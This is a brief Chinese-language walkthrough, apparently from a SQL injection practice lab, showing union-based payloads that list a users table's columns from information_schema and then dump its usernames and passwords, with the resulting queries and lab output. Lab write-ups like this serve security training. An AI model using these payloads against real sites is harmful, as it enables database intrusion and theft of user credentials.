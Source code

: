 <a name="MZSNh"></a>

## 查看字段名

`?id=-1' union select 1,2,group_concat(column_name) from information_shema.columns where table_name='users'--+`

> select * from users where id='-1' union select 1,2,group\_concat(column\_name) from information\_shema.columns where table\_name='users'--+' limit 0,1

> Your Login name:2
> Your Password:**user\_id,first\_name,last\_name,user,password,avatar,last\_login,failed\_login,USER,CURRENT\_CONNECTIONS,TOTAL\_CONNECTIONS,id,username,password**

> users的字段名
> **user\_id**
> **first\_name**
> **last\_name**
> **user**
> **password**
> **avatar**
> **last\_login**
> **failed\_login**
> **USER**
> **CURRENT\_CONNECTIONS**
> **TOTAL\_CONNECTIONS**
> **id**
> **username**
> **password**

<a name="nJvzj"></a>

## 查看字段

`id=-1' union select 1,2,(select group_concat(username,~,password)from users)--+`

> select * from users where id='`-1' union select 1,2,(select group_concat(username,0x7e,password)from users)--+`' limit 0,1

0x7e:~

> Your Login name:2
> Your Password:**Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4**

> 用户~口令:
> **Dumb~Dumb**
> **Angelina~I-kill-you**
> **Dummy~p@ssword**
> **secure~crappy**
> **stupid~stupidity**
> **superman~genious**
> **batman~mob!le**
> **admin~admin**
> **admin1~admin1**
> **admin2~admin2**
> **admin3~admin3**
> **dhakkan~dumbo**
> **admin4~admin4**
